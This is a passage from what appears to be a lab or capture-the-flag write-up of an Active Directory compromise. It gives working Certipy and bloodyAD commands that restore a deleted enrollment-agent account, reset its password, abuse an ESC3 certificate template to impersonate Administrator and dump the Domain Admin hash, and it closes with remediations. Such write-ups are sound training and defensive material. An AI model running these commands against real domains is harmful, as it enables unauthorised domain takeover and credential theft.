

## Step 6: ADCS Attack — ESC3 to Domain Admin

While enumerating the website, I noticed a note mentioning an employee who had left the company whose role was *certificate manager & enrollment agent*. This hinted at an ADCS attack.



That account (`sam.h`) did not appear in the BloodHound collection, suggesting it was deleted after the employee left.



A termination email confirmed this assumption.



I queried deleted user objects from the Active Directory recycle bin.

```
Get-ADObject -Filter 'isDeleted -eq $true -and objectClass -eq "user"' -IncludeDeletedObjects -Properties * | fl name,lastKnownParent,DeletedTime
```



I restored the deleted `sam.h` account from the recycle bin using **BloodyAD**.

```
bloodyAD -u oscar.m -p '<REDACTED>' -d shadowgate.local -H 10.1.44.124 set restore "sam.h"
```



I then reset its password.

```
bloodyAD -u oscar.m -p '<REDACTED>' -d shadowgate.local --host 10.1.44.124 set password "sam.h" '<REDACTED>'
```



Confirming the account is active again.



### Certificate Enumeration

I used **Certipy** to enumerate the CA for vulnerable templates.

```
certipy-ad find -u sam.h@shadowgate.local -p '<REDACTED>' -dc-ip 10.1.44.124 -vulnerable -ldap-scheme ldap -vulnerable -stdout
```

The output revealed the certificate authority is vulnerable to **ESC3** and **ESC7**.




### ESC3 Exploitation

ESC3 (Enrollment Agent) allows a certificate on the `Shadowgate-EnrollmentAgent` template to be requested, then used to request certificates **on behalf of** other principals. Because the termination email stated a specific endpoint must be used, I requested the certificate using the `-dynamic-endpoint` flag.

```
certipy req -u 'sam.h@shadowgate.local' -p '<REDACTED>' -dc-ip 10.1.44.124 -ca 'Shadowgate-CA' -target SG-DC01.shadowgate.local -template 'Shadowgate-EnrollmentAgent' -dynamic-endpoint
```


This produced a valid Enrollment Agent certificate for `sam.h`.


With a valid Enrollment Agent certificate, I requested a certificate **on behalf of** the `Administrator` against the `User` template.

```
certipy req -u 'sam.h@shadowgate.local' -p '<REDACTED>' -dc-ip 10.1.44.124 -ca 'ShadowGate-CA' -target SG-DC01.shadowgate.local -template User -on-behalf-of 'shadowgate\administrator' -pfx sam.h.pfx
```


Authenticating with the Administrator certificate, I dumped the NTLM hash of the Domain Admin.

```
certipy auth -pfx 'administrator.pfx' -dc-ip 10.1.44.124
```


With the Domain Admin hash, I authenticated as `administrator` and captured the final flag, completing the domain compromise.


## Conclusion

This engagement demonstrated a full Active Directory domain compromise starting from nothing but VPN access. The attack chain relied on chaining together multiple identity-based misconfigurations:

1. **Username discovery** via a developer portal that leaked the AD naming convention.
2. **Unauthenticated access** to an upload portal running as `mitch.r`.
3. **NTLM hash capture** via a malicious `.lnk` file and Responder.
4. **ACL abuse chain:** `ForceChangePassword` → `WriteOwner`/`WriteDACL` → `GenericAll` to progressively escalate to the MSSQL service account.
5. **MSSQL impersonation** to reach a Remote Management user and bypass logon-hour restrictions.
6. **Deleted object restoration** to resurrect the old enrollment agent account `sam.h`.
7. **ESC3 ADCS attack** to impersonate the Domain Administrator and dump the domain.

To secure the environment, the following remediations are recommended:

- **Restrict object control privileges:** Audit and remove excessive ACLs (`GenericAll`, `WriteOwner`, `WriteDACL`, `ForceChangePassword`) across the domain.
- **Disable the AD Recycle Bin exposure:** Ensure restore permissions are limited and monitor restore operations.
- **Harden ADCS templates:** Enforce CA manager approval (ESC7) and application-policy settings (ESC3), and disable dynamic endpoints if not required.
- **Block SMB hash capture:** Enable SMB signing and disable NTLM authentication where possible.
- **Secure the upload portal:** Enforce authentication, validate file types, and isolate the file-processing service account.
